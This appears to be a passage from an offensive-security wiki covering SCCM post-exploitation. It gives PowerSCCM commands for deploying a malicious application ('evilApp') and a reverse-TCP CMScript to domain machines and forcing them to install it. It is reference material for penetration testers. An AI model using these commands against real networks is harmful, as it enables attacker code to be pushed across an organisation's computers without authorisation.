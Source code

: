 
=== PowerSCCM

With sufficient rights on the central SCCM server (sufficient rights on WMI), it is possible to deploy applications or scripts on the Active Directory machines with [PowerSCCM](https://github.com/PowerShellMafia/PowerSCCM) (Powershell).

```powershell
# Create a SCCM Session via WMI with the Site Code
Find-SccmSiteCode -ComputerName SCCMServer
New-SccmSession -ComputerName SCCMServer -SiteCode  -ConnectionType WMI

# Retrieve the computers linked to the SCCM server
Get-SccmSession | Get-SccmComputer

# Create a computer collection
Get-SccmSession | New-SccmCollection -CollectionName "collection" -CollectionType "Device"

# Add computers to the collection
Get-SccmSession | Add-SccmDeviceToCollection -ComputerNameToAdd "target" -CollectionName "collection"

# Create an application to deploy
Get-SccmSession | New-SccmApplication -ApplicationName "evilApp" -PowerShellB64 ""

# Create an application deployment with the application and the collection previously created
Get-SccmSession | New-SccmApplicationDeployment -ApplicationName "evilApp" -AssignmentName "assig" -CollectionName "collection"

# Force the machine in the collection to check the application update (and force the install)
Get-SccmSession | Invoke-SCCMDeviceCheckin -CollectionName "collection"
```

If deploying applications fails, deploying CMScripts is an alternative, which requires a "Configuration Manager" drive on the SCCM server.

This [pull request](https://github.com/PowerShellMafia/PowerSCCM/pull/6) on PowerSCCM can be used to do everything in one command. It uses the script `configurationmanager.psd1` created by Microsoft, usually installed on SCCM servers.

```powershell
# Create a CM drive if it doesn't already exist and deploy a CMScript on a target
New-CMScriptDeployement -CMDrive 'E' -ServerFQDN 'sccm.domain.local' -TargetDevice 'target' -Path '.\reverseTCP.ps1' -ScriptName 'evilScript'
```

:::


### AdminService API

It appears that, with SCCM administrative rights, it is possible to directly interact with the AdminService API, without using CMPivot, for post SCCM exploitation purpose.

::: tabs

=== UNIX-like
